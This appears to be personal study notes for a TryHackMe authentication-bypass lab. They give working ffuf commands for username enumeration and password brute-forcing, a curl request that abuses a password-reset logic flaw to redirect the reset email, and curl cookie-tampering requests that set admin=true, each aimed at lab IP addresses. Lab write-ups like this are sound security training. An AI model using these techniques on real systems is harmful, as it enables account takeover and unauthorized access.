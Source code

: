 # Room
https://tryhackme.com/room/authenticationbypass

# Task 1 - Intro
Intro

# Task 2 - Username Enumeration with ffuf
1. Enumeration
   * You can use the exsitence of an error message telling you a user exists to enumerate users
2. Enumeration Tools
   * ffuf - fuzz faster you fool
     * a web fuzzer written in Go
     * example
        ```
        ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.88.54/customers/signup -mr "username already"
        ```
      * https://github.com/ffuf/ffuf
      * ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt : define the wordlist
      * -X POST : HTTP method to use
      * -d "username=FUZZ&email=x&password=x&cpassword=x" : data to be used in the POST, FUZZ is the variable that will be replaced from the wordlist
      * -H "Content-Type: application/x-www-form-urlencoded" : header to pass in your fuzzing
      * -u http://10.10.88.54/customers/signup : URL to tickle
      * -mr "username already" : "mr" = match regular expression, match the phrase "username already" and print the results

# Task 3 - Brute Forcing with ffuf
1. Brute force
   * Using the valid usernames from the previous task, you can use a wordlist to attack them, ffuf to the rescue
   * example
    ```
    ffuf -w users3.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.88.54/customers/login -fc 200
    ```
   * ffuf -w users3.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 : map a user list to the variable W1, and a wordlist to the variable W2
   * -X POST : HTTP method to use
   * -d "username=W1&password=W2" : data to be use din the POST, W1 variable is filled in with a username, W2 variable is filled in from the wordlist
   * -H "Content-Type: application/x-www-form-urlencoded" : header to pass in your fuzzing
   * -u http://10.10.88.54/customers/login : URL to fuzz
   * -fc 200 : "fc" = filter code, filter status code 200 from being displayed, show all others
   * side note - my initial user input file wasn't clean text, use cat file | xxd to find binary characters

# Task 4 - Logic Flaws
1. Logic Flaws
   * Occur when the designed flow of the application is circumvented
   * example : use curl to modify a password reset POST request to send to another email address instead of the one on file for a user
   ```
   curl 'http://10.10.38.12/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=test@customer.acmeitsupport.thm'
   ```
   * curl 'http://10.10.38.12/customers/reset?email=robert%40acmeitsupport.thm' : password reset form URL
   * -H 'Content-Type: application/x-www-form-urlencoded' : header to pass that ensures your posted data is encoded properly
     * https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST
   * -d 'username=robert&email=test@customer.acmeitsupport.thm' : data to post, originally it only included the username part which would then send the reset request to the user's email on file, but because of a logic flaw you are able to use the & parameter and tack on another email and send that reset to an email of your choosing

# Task 5 - Cookie Tampering
1. Editing cookies allow unauthenticated access, other privileges, or access to other accounts.
   * example : use a simple plaintext cookie to change authentication and access
   ```
   curl http://10.10.38.12/cookie-test

   curl http://10.10.38.12/cookie-test -H "Cookie: logged_in=true; admin=false"

   curl http://10.10.38.12/cookie-test -H "Cookie: logged_in=true; admin=true"
   ```
2. Cookie encoding
   * Most cookies are not plaintext, they are encoded or hashed using md5, sha, or base64, among others
     * tool: https://gchq.github.io/CyberChef/